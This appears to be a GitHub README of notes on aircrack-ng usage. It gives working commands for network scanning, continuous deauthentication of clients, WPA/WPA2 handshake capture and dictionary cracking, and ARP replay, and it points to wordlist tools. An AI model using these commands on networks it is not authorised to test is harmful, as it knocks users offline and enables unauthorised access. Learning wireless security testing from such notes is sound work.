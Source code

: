 # Usage of some tools

In this example
- `mon0` is the name of your interface in monitor mode
- `XX:XX:XX:XX:XX:XX` is the bssid of target network
- `-c X` is the channel of target network

## Scan network around

```
airodump-ng mon0
```

![image](https://user-images.githubusercontent.com/90561566/166110658-56663408-8ef9-4681-a5d1-4e7ec4bd3562.png)

## [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication)

You can try it: https://github.com/lucthienphong1120/xDeauth

```
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
or
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 mon0
```

Ctrl+C to stop deauth

## WPA/WPA2 Handshake capture

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 5 -a 00:14:6C:7E:40:80 mon0
(wait for a few seconds)
aircrack-ng -w /path/to/dictionary out.cap
```

## ARP request

```
airodump-ng -c 6 -w out --bssid 00:13:10:30:24:9C mon0
aireplay-ng -0 10 -a 00:13:10:30:24:9C mon0
aireplay-ng -3 -b 00:13:10:30:24:9C -h 00:09:5B:EB:C5:2B mon0
```

## Brute force tools

Aircrack often uses brute force with some other tools as follows:

- [cupp](https://github.com/lucthienphong1120/cupp)
- /usr/share/wordlists/rockyou.txt.gz
- 





